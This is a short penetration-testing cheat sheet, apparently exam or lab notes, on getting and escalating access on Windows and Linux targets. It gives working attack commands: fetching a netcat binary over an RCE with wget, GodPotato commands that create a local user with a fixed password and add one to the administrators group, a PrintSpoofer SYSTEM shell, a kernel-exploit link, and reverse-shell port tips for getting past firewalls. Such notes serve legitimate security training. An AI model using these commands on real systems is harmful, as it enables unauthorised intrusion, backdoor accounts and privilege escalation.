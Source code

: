 🔴 sometimes wget won't work through the RCE, then drop the port and HTTP "**wget 192.168.45.209/linux_tools/nc**"

🔴 Check for the first page exploits in google search

1. If the server is Windows 2019-2022
  - God Potato - If the reverse shell is getting hanged use below
```bash
.\g4.exe -cmd "cmd /c net user dave password123 /add"   
```

```bash
.\g4.exe -cmd "cmd /c net localgroup administrators username /add"
```
  - PrintSpoofer

2. If the server is windows Windows 7 SP1,Windows Server 2008 SP2,Windows Server 2008 R2 SP1
  - Use https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2018-8120
  - Or Juicy Potato

3. If there is command execution try "wget" and "curl" first.

5. If you cant find a exploit or a service to enumerate try googling port number + Exploit. (Ex: **1978 Exploit**)

6. Try ports 80, 443 if 4444 doesn't work might be a FW.

7.  WIndows 10 x64 use
   - PrintSpoofer64.exe -i -c 'cmd'


